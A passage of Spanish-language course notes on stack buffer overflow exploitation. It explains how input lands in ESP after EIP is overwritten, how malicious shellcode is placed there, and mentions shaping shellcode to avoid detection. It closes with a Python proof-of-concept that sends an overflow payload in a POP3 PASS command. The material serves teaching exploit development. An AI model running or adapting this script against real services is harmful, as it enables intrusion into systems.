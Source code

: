 Una vez que se ha encontrado el **offset** y se ha sobrescrito el valor del registro **EIP** en un buffer overflow, el siguiente paso es identificar en qué parte de la memoria se están representando los caracteres introducidos en el campo de entrada.

Después de sobrescribir el valor del registro EIP, cualquier carácter adicional que introduzcamos en el campo de entrada, veremos desde Immunity Debugger que en este caso particular estos estarán representados al comienzo de la **pila** (**stack**) en el registro **ESP** (**Extended Stack Pointer**). El ESP (Extended Stack Pointer) es un registro de la CPU que se utiliza para manejar la pila (stack) en un programa. La pila es una zona de memoria temporal que se utiliza para almacenar valores y **direcciones de retorno** de las funciones a medida que se van llamando en el programa.

Una vez que se ha identificado la ubicación de los caracteres en la memoria, la idea principal en este punto es introducir un **shellcode** en esa ubicación, que son instrucciones de bajo nivel las cuales en este caso corresponderán a una instrucción maliciosa.

El shellcode se introduce en la pila y se coloca en la misma dirección de memoria donde se colocaron los caracteres sobrescritos. En otras palabras, se aprovecha el desbordamiento del búfer para ejecutar el shellcode malicioso y tomar control del sistema.

Es importante tener en cuenta que el shellcode debe ser diseñado cuidadosamente para evitar que se detecte como un programa malicioso, y debe ser compatible con la arquitectura de la CPU y el sistema operativo que se está atacando.

En resumen, la asignación de espacio para el shellcode implica identificar la ubicación en la memoria donde se colocaron los caracteres sobrescritos en el buffer overflow y colocar allí el shellcode malicioso. Sin embargo, no todos los caracteres del shellcode pueden ser interpretados. En la siguiente clase veremos cómo detectar estos **badchars** y cómo generar un shellcode que no disponga de estos caracteres.

```python
#!/usr/bin/python3
   2   │ 
   3   │ import socket
   4   │ import sys
   5   │ 
   6   │ #Variables globales
   7   │ 
   8   │ ip_address = "10.47.1.42"
   9   │ lport = 110
  10   │ offset = 4655
  11   │ 
  12   │ before_eip = b"A"*offset
  13   │ 
  14   │ eip = b"B"*4
  15   │ after_eip = b"C"*200 
  16   │ 
  17   │ 
  18   │ payload = before_eip + eip + after_eip
  19   │ 
  20   │ def exploit():
  21   │ 
  22   │     # Create a socket
  23   │     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  24   │ 
  25   │     # Connect to the server
  26   │ 
  27   │     s.connect((ip_address, lport))
  28   │     
  29   │     # Revice the banner
  30   │      
  31   │     banner = s.recv(1024)
  32   │ 
  33   │     s.send(b"USER lotus" + b'\r\n')
  34   │     response = s.recv(1024)
  35   │     s.send(b"PASS" + payload + b'\r\n')
  36   │     s.close()
  37   │ 
  38   │ if __name__ == "__main__":
  39   │     exploit()    
```
![[Screenshot (20) 1.png]]